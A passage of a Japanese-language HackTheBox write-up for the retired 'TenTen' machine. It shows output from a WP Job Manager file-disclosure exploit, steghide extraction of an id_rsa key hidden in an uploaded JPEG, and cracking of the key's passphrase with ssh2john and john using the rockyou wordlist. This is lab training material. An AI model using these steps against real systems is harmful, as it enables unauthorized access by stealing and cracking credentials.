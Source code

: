 ```bash
Author: Evangelos Mourikis
Blog: https://vagmour.eu
Plugin URL: http://www.wp-jobmanager.com
Versions: <=0.7.25

Enter a vulnerable website: http://tenten.htb
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg

```
![](https://raw.githubusercontent.com/crum7/Obsidian/main/HackTheBox_Writeups/Retired/Medium/TenTen/images/Pasted%20image%2020241227111917.png)

ステガノグラフィーかもしれないので、どのような情報が含まれているのかをみる。
秘密鍵が含まれているらしい。
```bash
└──╼ [★]$ sudo steghide info *.jpg
"HackerAccessGranted.jpg":
  format: jpeg
  capacity: 15.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "id_rsa":
    size: 1.7 KB
    encrypted: rijndael-128, cbc
    compressed: yes

```

抽出する。
パスワードは特にないので、Enter押すだけで大丈夫
```bash
└──╼ [★]$ sudo steghide extract -sf *.jpg
Enter passphrase: 
wrote extracted data to "id_rsa".
```

出力された`id_rsa`がどのようなRSA鍵であるかを解析するために、`john`を用いて複合する。複合を行うには、まず現在の`id_rsa`ファイルを`.john`形式に変換する必要がある。
そのため、以下のコードで、rsaを.johnに変えるためのスクリプトを検索する。出力された`/usr/share/john/ssh2john.py`を利用する。このスクリプトを使うことで、取得したRSA暗号を`john`で解析可能な`.john`形式に変換できる。
```bash
sudo find / -iname *2john* -type f 2>/dev/null
```

johnで解析したら、パスワードが「superpassword」であることがわかった。
```bash
└──╼ [★]$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt rsa.john
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
superpassword    (id_rsa)     
1g 0:00:00:00 DONE (2024-12-26 10:03) 1.724g/s 1344Kp/s 1344Kc/s 1344KC/s superram..supermoy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

